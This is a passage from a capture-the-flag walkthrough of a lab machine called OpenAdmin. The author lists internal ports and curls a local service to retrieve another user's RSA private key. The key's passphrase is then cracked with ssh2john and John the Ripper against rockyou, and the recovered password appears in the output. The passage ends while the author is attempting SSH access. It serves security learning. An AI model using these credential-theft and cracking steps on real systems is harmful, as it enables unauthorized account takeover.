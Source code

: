 ```
jimmy@openadmin:/var/www/internal$ netstat -lnptu
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:52846 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 127.0.0.53:53 0.0.0.0:* -
I tried to curl on port localhost:3306 and it didn't work. So, I went ahead and tried out on port 52846 which worked out for me
and I got the RSA Private Key for joanna's account.
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
```

Now that I had the RSA key, the aim was to decrypt the key and use it to access joanna's account. So, I used `ssh2john.py` to first convert the RSA Private Key to a hash form in which `JohnTheRipper` could decrypt. For this, I first copied only the RSA private key and pasted it in a new file. Then I tried to ssh2john that file but it didn't succeed. I was a bit confused tried a few more time but didn't work. Then I copied the key from the very line where it was written `-----BEGIN RSA PRIVATE KEY-----` till the line `-----END RSA PRIVATE KEY-----`. Then I again tried `ssh2john.py` and this time it worked. I used the command:

```
tester@kali:~/Desktop$ python /usr/share/john/ssh2john.py rsa > key
```

My new key was stored in a new file that I named ‘key’. The next task was to decrypt this key using JohnTheRipper. And the output was:

```
tester@kali:~/Desktop$ john --wordlist=/usr/share/wordlists/rockyou.txt key
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas (rsa)
1g 0:00:00:04 DONE (2020-03-28 16:15) 0.2475g/s 3549Kp/s 3549Kc/s 3549KC/sa6_123..*7¡Vamos!
Session completed
```

So, I got the key for joanna's account as well. The immediate next thing that I had to do was to SSH into joanna's account. I tried to do the same and enter the new password that I got but even after trying multiple times each time the permission got denied. I headed back to Reddit just to find that over there I was not supposed to enter the password but to pass the RSA key directly while logging in, so I tried the same but it didn't work this time as well and I ended up with:
